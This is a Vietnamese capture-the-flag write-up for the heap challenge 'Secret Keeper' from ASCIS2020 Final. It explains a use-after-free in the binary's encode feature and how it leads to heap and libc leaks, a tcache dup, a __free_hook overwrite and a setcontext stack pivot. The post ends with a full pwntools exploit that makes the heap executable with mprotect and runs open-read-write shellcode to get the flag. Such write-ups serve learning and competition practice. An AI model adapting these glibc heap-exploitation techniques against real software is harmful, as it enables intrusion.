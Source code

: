 ```yaml
---
# Documentation: https://wowchemy.com/docs/managing-content/

title: "[ASCIS2020 Final] Secret Keeper"
subtitle: ""
summary: "Short writeup for a pwn challenge in ASCIS2020 Final"
authors: [pickaxe]
tags: []
categories: []
date: 2020-12-03T21:27:00+07:00
lastmod: 2020-12-03T21:27:00+07:00
featured: false
draft: false

# Featured image
# To use, add an image named `featured.jpg/png` to your page's folder.
# Focal points: Smart, Center, TopLeft, Top, TopRight, Left, Right, BottomLeft, Bottom, BottomRight.
image:
  caption: ""
  focal_point: ""
  preview_only: false

# Projects (optional).
#   Associate this post with one or more of your projects.
#   Simply enter your project's folder or file name without extension.
#   E.g. `projects = ["internal-project"]` references `content/project/deep-learning/index.md`.
#   Otherwise, set `projects = []`.
projects: []
---
```


### Tổng quan
Đây là một heap challenge, với seccomp chỉ cho phép các syscall open, read, write, mprotect, ... không cho phép các syscall exec*
```
0000: 0x20 0x00 0x00 0x00000004  A = arch
0001: 0x15 0x00 0x0c 0xc000003e  if (A != ARCH_X86_64) goto 0014
0002: 0x20 0x00 0x00 0x00000000  A = sys_number
0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
0004: 0x15 0x00 0x09 0xffffffff  if (A != 0xffffffff) goto 0014
0005: 0x15 0x07 0x00 0x00000000  if (A == read) goto 0013
0006: 0x15 0x06 0x00 0x00000001  if (A == write) goto 0013
0007: 0x15 0x05 0x00 0x00000002  if (A == open) goto 0013
0008: 0x15 0x04 0x00 0x00000003  if (A == close) goto 0013
0009: 0x15 0x03 0x00 0x0000000a  if (A == mprotect) goto 0013
0010: 0x15 0x02 0x00 0x0000000e  if (A == rt_sigprocmask) goto 0013
0011: 0x15 0x01 0x00 0x00000027  if (A == getpid) goto 0013
0012: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0014
0013: 0x06 0x00 0x00 0x7fff0000  return ALLOW
0014: 0x06 0x00 0x00 0x00000000  return KILL
```

Ban đầu, thực sự là mình khá ngại làm câu này, @midas hỗ trợ mình trong việc RE câu này. Trong lúc thi thì mình phát hiện ra lỗi Use-after-free ở tính năng encode và decode của chương trình
```c
(secret_to_encode->encoder)(secret_to_encode->buf, *&secret_to_encode->size, &dest_buf, &dest_size);
printf("Encode data: %s\n", dest_buf);
// dest_buf trỏ tới cùng buffer với secret_to_encode->buf
free(secret_to_encode->buf);
secret_to_encode->buf = dest_buf;
```

### Khai thác
Dùng lỗi ở trên, mình có thể dễ dàng leak được địa chỉ của heap và libc
```python
create_secret("AAAA\n", 0x10, "BBBBB\n")
encode_secret(1)
list_secret(1)
r.recvuntil("Your secret:\n")
heap = r.recvuntil("00 00").replace(" ", "")
heap = u64(heap.decode('hex')) - 0x2670
log.info("heap: %s" % hex(heap))

create_secret("AAAA\n", 0x600, "BBBBB\n", True)
create_secret("AAAA\n", 0x600, "BBBBB\n", True)
encode_secret(2)
list_secret(2)
r.recvuntil("Your secret:\n")
base_libc = r.recvuntil("00 00").replace(" ", "")
base_libc = u64(base_libc.decode('hex')) - 0x1ebbe0
```
Do không hiểu rõ tính năng edit nên mình quyết định sử dùng lỗi UAF này để gây ra tcache dup.
```python
create_secret("AAAA\n", 0x100, "BBBBB\n", True)

encode_secret(6)
encode_secret(6)
```
Libc 2.31 có kiểm tra tcache dup thông qua `key` trong tcache chunk, tuy nhiên do tính năng encode thay đổi toàn bộ buffer nên overwrite luôn cả `key` nên mình có thể bypass cái check đó. Dùng tcache dup mình có thể overwrite `free_hook` từ đó kiểm soát được `rip`.
Tới đây, mình sử dụng gadget này trong libc
```
gadget = libc + 0x154930
mov     rdx, [rdi+8]
mov     [rsp], rax
call    qword ptr [rdx+0x20]
```
Do overwrite `free_hook` nên mình có thể kiểm soát `rdi` (tham số thứ nhất của hàm free), từ đó mình kiểm soát được `rdx` và tiếp tục kiểm soát được `rip`. Trỏ `rip` tới gadget trong `setcontext`
```
base_libc + 0x580DD
mov     rsp, [rdx+0A0h]
mov     rbx, [rdx+80h]
mov     rbp, [rdx+78h]
mov     r12, [rdx+48h]
mov     r13, [rdx+50h]
mov     r14, [rdx+58h]
mov     r15, [rdx+60h]
test    dword ptr fs:48h, 2
jz      loc_581C6

loc_581C6:
mov     rcx, [rdx+0A8h]
push    rcx
mov     rsi, [rdx+70h]
mov     rdi, [rdx+68h]
mov     rcx, [rdx+98h]
mov     r8, [rdx+28h]
mov     r9, [rdx+30h]
mov     rdx, [rdx+88h]
xor     eax, eax
retn
```
Tới đây, do kiểm soát `rdx` nên mình có thể kiểm soát rất nhiều thanh ghi khác trong đó có cả `rsp` rất thuận tiện cho việc ROP. Gọi `mprotect` để giúp heap có thêm quyền execute sau đó nhảy tới shellcode open read write để đặt trên heap là mình có được flag.

Full exploit
```python
from pwn import *

def create_secret(name, size, payload, reuse=False):
    r.sendlineafter(">> ", "1")
    if reuse:
        r.sendline("0")
    r.sendafter("Name: ", name)
    r.sendlineafter("size:", str(size))
    r.send(payload)
    r.sendlineafter("3. None\n", "1")

def encode_secret(index):
    r.sendlineafter(">> ", "5")
    r.sendlineafter(">> ", str(index))

def list_secret(index):
    r.sendlineafter(">> ", "3")
    r.sendlineafter(">> ", str(index))

def delete_secret(index):
        r.sendlineafter(">> ", "4")
        r.sendlineafter(">> ", str(index))

if (sys.argv[1] == "local"):
    r = process("./secret_keeper")
else:
    r = remote("35.240.209.133", 1337)

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
free_hook_off = libc.symbols["__free_hook"]
mprotect_off = libc.symbols["mprotect"]

create_secret("AAAA\n", 0x10, "BBBBB\n")
encode_secret(1)
list_secret(1)
r.recvuntil("Your secret:\n")
heap = r.recvuntil("00 00").replace(" ", "")
#print heap
heap = u64(heap.decode('hex')) - 0x2670
log.info("heap: %s" % hex(heap))

#pause()
create_secret("AAAA\n", 0x600, "BBBBB\n", True)
create_secret("AAAA\n", 0x600, "BBBBB\n", True)
encode_secret(2)
list_secret(2)

r.recvuntil("Your secret:\n")
base_libc = r.recvuntil("00 00").replace(" ", "")
base_libc = u64(base_libc.decode('hex')) - 0x1ebbe0
log.info("base_libc: %s" % hex(base_libc))
free_hook = base_libc + free_hook_off
log.info("free_hook: %s" % hex(free_hook))
mprotect = base_libc + mprotect_off

create_secret("TTTT\n", 0x100, "BBBBB\n", True)
create_secret("TTTT\n", 0x100, "BBBBB\n", True)
encode_secret(4)
encode_secret(5)

create_secret("AAAA\n", 0x100, "BBBBB\n", True)

encode_secret(6)
encode_secret(6)

gadget = base_libc + 0x154930
setcontext = base_libc + 0x580DD

create_secret("CCCC\n", 0x100, p64(free_hook) + "\n", True)
payload = "A"*8 + p64(heap+0x1fb0) + "B"*0x10 + p64(setcontext)

payload += "A"*0x40 + p64(heap-0x40) + p64(0xf000)
payload += "A"*0x10 + p64(7) + "A"*0x10 + p64(heap+0x3150) + p64(mprotect)

create_secret("DDDD\n", 0x100, payload + "\n", True)
create_secret("CCCC\n", 0x100, p64(gadget) + "\n", True)

context.arch = "amd64"
shellcode = shellcraft.open("/opt/flag/flag.txt", 0, 0)
shellcode += shellcraft.read("rax", "rsp", 100)
shellcode += shellcraft.write(1, "rsp", 100)
shellcode = asm(shellcode)

payload = p64(heap + 0x3150 + 0x8) + shellcode
create_secret("MMMM\n", 0x100, payload + "\n", True)

#pause()
delete_secret(8)

r.interactive()

```

Mình thực sự rất vui vì đã giải được câu này trong thời gian cuộc thi.

Cảm ơn anh @Peter vì những heap challenge rất hay, cảm ơn BTC vì một kỳ thi thú vị.

Cảm ơn anh @Biên, writeup của anh về bài ở vòng loại đã giúp em rất nhiều trong quá trình làm bài này.

